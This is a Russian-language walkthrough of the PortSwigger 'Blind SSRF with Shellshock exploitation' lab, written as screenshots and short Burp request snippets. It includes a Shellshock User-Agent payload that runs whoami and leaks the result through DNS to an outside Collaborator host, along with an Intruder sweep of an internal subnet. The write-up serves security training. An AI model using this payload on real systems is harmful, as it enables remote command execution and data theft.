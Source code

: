Для выполнения лабораторной работы необходимо расширение `Collaborator Everywhere`. Установим его
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/7.%20Blind%20SSRF%20with%20Shellshock%20exploitation/pics%20for%20walktrough/1.png)
перейдем на каорточку случайного товара и добавим домен в скоуп
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/7.%20Blind%20SSRF%20with%20Shellshock%20exploitation/pics%20for%20walktrough/2.png)

расширение показало, что можно отсукнуться на DGA домен
```
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36 root@457lkwytzx29nri5g65hqp8offlh96.oastify.com
```
отправим запрос с обычной карточкой товара в репитер
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/7.%20Blind%20SSRF%20with%20Shellshock%20exploitation/pics%20for%20walktrough/3.png)
и изменим параметры на
```
GET /product?productId=1
...
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).6v2hel4sf03pdlvv33deyg7ycpig67uw.oastify.com
...
Referer: http://192.168.0.1:8080 
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/7.%20Blind%20SSRF%20with%20Shellshock%20exploitation/pics%20for%20walktrough/4.png)
Видим, что запрос прошел, но отстука на наш сгенерированный DGA домен не поступило
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/7.%20Blind%20SSRF%20with%20Shellshock%20exploitation/pics%20for%20walktrough/5.png)

отправим даннный запрос в интрудер
```
Referer: http://192.168.0.§1§:8080
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/7.%20Blind%20SSRF%20with%20Shellshock%20exploitation/pics%20for%20walktrough/6.png)
и выберем всю подсетку от `0-255`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/7.%20Blind%20SSRF%20with%20Shellshock%20exploitation/pics%20for%20walktrough/7.png)
Смотреть на результат атаки нет смысла, так как каждый раз выдает 200 статус респонс код
вернемся в коллаборатор и посмотрим отстук
```
The Collaborator server received a DNS lookup of type A for the domain name `peter-Aaq4nR.6v2hel4sf03pdlvv33deyg7ycpig67uw.oastify.com`.  The lookup was received from IP address 99.80.88.10:39366 at 2023-Nov-25 05:09:34.411 UTC.
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/7.%20Blind%20SSRF%20with%20Shellshock%20exploitation/pics%20for%20walktrough/8.png)
Cдадим в качестве ответа  `peter-Aaq4nR` и получим сообщение об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/7.%20Blind%20SSRF%20with%20Shellshock%20exploitation/pics%20for%20walktrough/9.png)
